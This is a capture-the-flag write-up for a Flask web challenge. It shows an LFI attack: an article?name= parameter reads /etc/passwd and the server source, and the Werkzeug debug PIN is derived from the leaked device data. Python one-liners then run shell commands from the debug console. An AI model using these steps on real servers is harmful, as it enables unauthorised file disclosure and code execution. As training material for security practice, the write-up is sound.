

# Konsolation Prize

## Looking around
We have a web server that's running Flask on

http://hack.backdoor.infoseciitr.in:13456/

By trying some basic URL fuzzing techniques we find out that the /admin pages breaks it and that Flask is runnin in **debug** mode, since the /console page is reachable (but requires the debug PIN).

```html
jinja2.exceptions.TemplateNotFound: 
        {% % block body % %}
        <h1> The secret admin konsole </h1>
        <div class ="row">
        <div class = "col-md-6 col-md-offset-3 center" >
        Hey, you wanna hack the planet? Why don't you checkout <a href='/article?name=article'> article < /a >?
        /*I hope no one gets to see what I did up there*/
        </div>
        </div>
        {% % endblock % %}
```

and http://hack.backdoor.infoseciitr.in:13456/article?name=stuff

returns

```
[Errno 2] No such file or directory: 'stuff'
```

By requesting http://hack.backdoor.infoseciitr.in:13456/article?name=/src/app/server.py we can actually get the server's source code

```py
from flask import ( Flask, render_template, request, redirect, )

app = Flask(__name__)

@app.route("/admin", methods=["GET", "POST"])
def the_great_admin():
    template = '''
    {% % block body % %}
        <h1> The secret admin konsole </h1>
        <div class ="row">
            <div class = "col-md-6 col-md-offset-3 center" >
            Hey, you wanna hack the planet? Why don't you checkout <a href='/article?name=article'> article < /a >? 
            /*I hope no one gets to see what I did up there*/
            </div>
        </div>
    {% % endblock % %} ''' 
    return render_template(template)
    
@app.route("/", methods=["GET"])
def index():
    return render_template("main.html")
    
@app.route('/article', methods=['GET'])
def article():
    if 'name' in request.args:
        page = request.args.get('name')
    else: page = 'article'
    if page.find('flag') >= 0:
        return redirect("https://www.youtube.com/watch?v=dQw4w9WgXcQ", code=302)
    try: template_lol = open(page).read()
    except Exception as e:
        template_lol = e
        return render_template('article.html', temp=template_lol)
        
if __name__ == "__main__":
    app.run(host='0.0.0.0', debug=True, port=13456 )

```
## Getting the debug PIN using LFI
http://hack.backdoor.infoseciitr.in:13456/article?name=/etc/passwd also works so seems like we have a Local File Inclusion (LFI) vulnerability.

Since Werkzeug uses the device ID and the MAC to generate the debug PIN, we can exploit the LFI vuln to get the PIN and access the debug console:

- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug
- https://github.com/pallets/werkzeug/blob/main/src/werkzeug/debug/\_\_init\_\_.py#L137


The attached script [getpin.py](getpin.py) automatically generates the debug PIN exploiting the LFI vuln to retrieve the device ID and the MAC.

**Disclaimer**: this is a custom script tailored to this specific challenge, as it takes care of stripping away from the LFI vulnerable page all the irrelevant data, only leaving the retrieved file.




Now we have access to the Python debug console.
To run commands on the server we can just run the following commands in the console:

```py
import subprocess;import pprint
```

and then run a generic command with

```py
pprint.pprint([line for line in (subprocess.run(COMMAND.split(" "), stdout=subprocess.PIPE)).stdout.decode("utf-8").split("\n")])
```

It's not really the best console ever but it does the job.

After noticing there was no 'flag.txt' file as one would expected, I reached out to the admins who replied that the flag was somewhere on the server (meh).

After one hour of looking around and failing to launch `find` commands we finally find the flag in

`/usr/srv/youfoundmelol.txt`

